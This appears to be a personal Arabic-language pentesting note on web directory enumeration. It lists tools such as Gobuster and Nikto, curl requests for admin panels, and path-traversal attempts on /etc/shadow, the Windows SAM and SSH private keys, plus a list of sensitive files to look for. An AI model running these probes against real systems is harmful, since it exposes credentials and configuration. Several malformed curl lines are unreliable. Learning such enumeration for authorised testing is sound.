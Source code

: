 

هو انك تدور علي المسارات او الملفات  المخفيه في الموقع 


## لو لقيت في ناتج ال (service ⇒ http ) scan مفتوحه

### بروح افتح المتصفح واكتب الامر التالي ال

```bash
http:// بتاع التارجت ip
```

### لو لقيت في موقع فتح معاك اعمل الخطوات التاليه

#### استخدم ال tool الاتيه


## استخدم الادوات دي وهي هتجبلك المسارات  :
 - [[Gobuster]] اهم واحده
 - [[Nikto]]
- [[Dirbuster]]
- [[dirsearch]]
- [[Curl]]
- [[ffuf]] 
- [[wfuzz]]

```bash
nikto -h http:// بتاع التارجت ip
```
### هيظهرلي ملفات في الصفحه
![[Pasted image 20250305152443.png]]

## اهم المسارات اللي هتحتاجها :

```
curl http://<IP>/admin
curl http://<IP>/api/users
curl http://<IP>/dashboard
curl http://<IP>/config
curl http://<IP>/manager
curl http://<IP>/api/config
curl http://<IP>/api/v1/users
curl http://<IP>/phpmyadmin
curl http://<IP>/wp-admin
curl http://<IP>/user/1
curl http://<IP>/user/2
curl http://<IP>:8080/manager/html
curl http://<IP>/etc/nginx
curl http://<IP>/var/www/html
curl http://<IP>http://<IP>/../etc/passwd
curl http://<IP>/files
curl http://<IP>/home/user/.ssh/id_rsa
curl http://<IP>http://example.com/files/../../../../etc/shadow
curl http://<IP>../../Windows/system32/config/sam
curl http://<IP>/uploads/backup.zip
curl http://<IP>root /var/www
curl http://<IP>





```
## اهم الملفات  اللي بتدور عليها في المسارات :
```
db_backup.sql
.env
backup.zip
config.php
backup.tar.gz
wp-config.php
index.php
app.js
web.config
phpinfo.php
secret.txt
```


